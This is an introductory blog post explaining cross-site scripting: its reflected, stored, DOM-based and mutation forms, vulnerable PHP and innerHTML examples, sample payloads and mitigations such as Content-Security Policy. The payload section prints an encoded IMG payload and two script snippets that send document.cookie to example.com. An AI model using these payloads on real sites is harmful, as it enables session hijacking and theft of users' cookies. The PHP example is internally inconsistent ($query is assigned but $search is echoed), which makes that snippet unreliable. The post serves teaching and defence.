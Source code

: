 ```yaml
---
layout: post
title: What Is XSS?
---
```


## What Is It?
Cross-Site Scripting (XSS) is a client-side attack that allows an attacker to run arbitrary Javascript on a web site or application. This enables an attacker to do malicious things such as steal cookies which can lead to session hijacking, steal user credentials, or log keystrokes. 
There are a few different types of Cross-Site Scripting. The most common types are reflected, stored or persistent, and DOM-based XSS. There is also a less common version called mutation XSS (mXSS). Being a client-side attack, what they have in common is that a payload exploiting these vulnerabilities needs to be delivered to the user in some fashion. This, typically, means phishing.

The difference between them, for the most part, is self-explanatory. A search function that displays the input entered back onto the page is a good example of reflected XSS. 

Consider the following code snippet:
```
<body>
	<form action=”” method=”get”>
		<input type=”text” name=”search”>
		<input type=”submit” value=”Submit”>
	</form>
```

```php
  <?php
    $query = $_GET['search'];
    echo "Results for: $search"; 
  ?>
```
The XSS payload would be stored within the $query variable and then executed as it is reflected onto the page.
Stored XSS, on the other hand, means the payload is not immediately executed. It will be stored in a database, and upon retrieval will be executed somewhere. This could be the comment section of a blog for example. First, an attacker would submit a XSS payload as a comment. Then, once a user navigates to the post that comment is for, the payload would execute.

DOM-based XSS is where things get tricky. To understand this attack, one must first understand the DOM. This stands for the Document-Object Model. It is a tree-representation of the structure of documents in memory. Essentially, Javascript interacts with and manipulates the HTML on a website through the DOM. 
DOM-based XSS comes into play when Javascript methods such as .innerHTML are used with unsanitized data. 

Consider the following code snippet:
```javascript
let input = post.author;
element.innerHTML = input;
```
Since the input variable is user-supplied, a malicious payload could be supplied. DOM-based XSS can get very complicated so there will be other resources listed at the end that will explain it better. 

## What does it look like?
A XSS payload can be as simple as &lt;script&gt;alert(1)&lt;/script&gt; or as complex as &lt;IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099
&#0000114&#0000105&#0000112&#0000116
&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040
&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041&gt;.

While Flash and ActiveX can also be vectors for XSS, today, it tends to be javascript. So, any javascript code could potentially be a XSS payload. 
Generally, &lt;script&gt;alert(1)&lt;/script&gt; is used to test for the vulnerability to see if it is exploitable. 

The following code snippets may also be seen:
```
<script>
  let image = new Image(); 
  image.src='http://example.com?c='+document.cookie;
</script>
```
```
<script>
  document.location="http://example.com?c="+document.cookie;
</script>
```
## Mitigations
There are several ways to mitigate against XSS. All of them originate from the same consideration: never trust user input. And none of them should ever be solely relied upon.

A well-configured Content-Security Policy (CSP) can be a great step towards preventing XSS. It defines trust boundaries for scripts, stylesheets and other media sources. 

Input validation and sanitization are also excellent options. Input validation is the process of ensuring the data submitted is what was expected. Input sanitization is the process of removing or manipulating potentially malicious data. 

## Resources
[DOM XSS Explained](https://www.acunetix.com/blog/articles/dom-xss-explained/)

[DOM Based XSS Software Attack](https://owasp.org/www-community/attacks/DOM_Based_XSS)

[What is DOM Based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)

[Content-Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

[Content-Security Policy - Google](https://developers.google.com/web/fundamentals/security/csp/)

[Content-Security Policy: Use Cases](https://beaglesecurity.com/blog/article/content-security-policy.html)
